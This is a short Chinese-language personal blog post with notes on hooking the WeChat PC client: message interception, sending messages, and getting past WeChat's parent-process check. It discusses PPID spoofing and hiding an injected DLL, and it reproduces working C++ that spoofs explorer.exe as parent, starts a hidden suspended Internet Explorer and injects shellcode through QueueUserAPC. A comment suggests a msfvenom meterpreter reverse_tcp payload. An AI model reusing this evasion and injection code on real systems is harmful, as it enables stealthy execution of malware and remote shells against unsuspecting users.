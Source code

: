```yaml
---
layout: post
title:  wechat hook
date:   2021-03-20 23:12:36
categories: others
---
```


仅对于 微信PC 版

#### 消息的接收

1. 似乎可以通过 XML 的相关函数

2. 写入本地数据库时

<!-- more -->

#### 消息的发送

微信窗口使用的是 `msftedit.dll` 中的 [rich-edit-controls] 组件

1. 通过执行 激活 hwnd, 然后发送 Ctrl+v , Enter 事件似乎不太好?
  比如如果你在做其它的事情了? 会被 激活 hwnd 给中断掉,
  也许不需要激活 hwnd , 直接传递 MSG 就可以了

<https://github.com/ttttupup/wxhelper/wiki>

### Tools

- ProcessExplorer 用于查看进程信息

### misc

- 微信似乎会检测其父进程是否为 explorer, 但应该能通过 [PPID Spoofing] 绕过

- 如何隐藏注入的 DLL?

  1. DLL加载顺序劫持?
  2. 用户安全级别参考: <https://github.com/streed/HideMyAss>(未测试)


### codes

[PPID Spoofing](https://pentestlab.blog/2020/02/24/parent-pid-spoofing/)
[rich-edit-controls](https://docs.microsoft.com/en-us/windows/win32/controls/about-rich-edit-controls)

<https://github.com/hlldz/APC-PPID>

```c++
#include <windows.h>
#include <TlHelp32.h>
#include <iostream>

DWORD getParentProcessID() {
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 process = { 0 };
	process.dwSize = sizeof(process);

	if (Process32First(snapshot, &process)) {
		do {
            		//If you want to another process as parent change here
			if (!wcscmp(process.szExeFile, L"explorer.exe"))
				break;
		} while (Process32Next(snapshot, &process));
	}

	CloseHandle(snapshot);
	return process.th32ProcessID;
}

int main() {

	//Shellcode, for example; msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x EXITFUNC=thread -f c
	unsigned char shellCode[] = "";

	STARTUPINFOEXA sInfoEX;
	PROCESS_INFORMATION pInfo;
	SIZE_T sizeT;

	HANDLE expHandle = OpenProcess(PROCESS_ALL_ACCESS, false, getParentProcessID());

	ZeroMemory(&sInfoEX, sizeof(STARTUPINFOEXA));
	InitializeProcThreadAttributeList(NULL, 1, 0, &sizeT);
	sInfoEX.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, sizeT);
	InitializeProcThreadAttributeList(sInfoEX.lpAttributeList, 1, 0, &sizeT);
	UpdateProcThreadAttribute(sInfoEX.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &expHandle, sizeof(HANDLE), NULL, NULL);
	sInfoEX.StartupInfo.cb = sizeof(STARTUPINFOEXA);

	CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, reinterpret_cast<LPSTARTUPINFOA>(&sInfoEX), &pInfo);

	LPVOID lpBaseAddress = (LPVOID)VirtualAllocEx(pInfo.hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	SIZE_T *lpNumberOfBytesWritten = 0;
	BOOL resWPM = WriteProcessMemory(pInfo.hProcess, lpBaseAddress, (LPVOID)shellCode, sizeof(shellCode), lpNumberOfBytesWritten);

	QueueUserAPC((PAPCFUNC)lpBaseAddress, pInfo.hThread, NULL);
	ResumeThread(pInfo.hThread);
	CloseHandle(pInfo.hThread);

	return 0;
}

```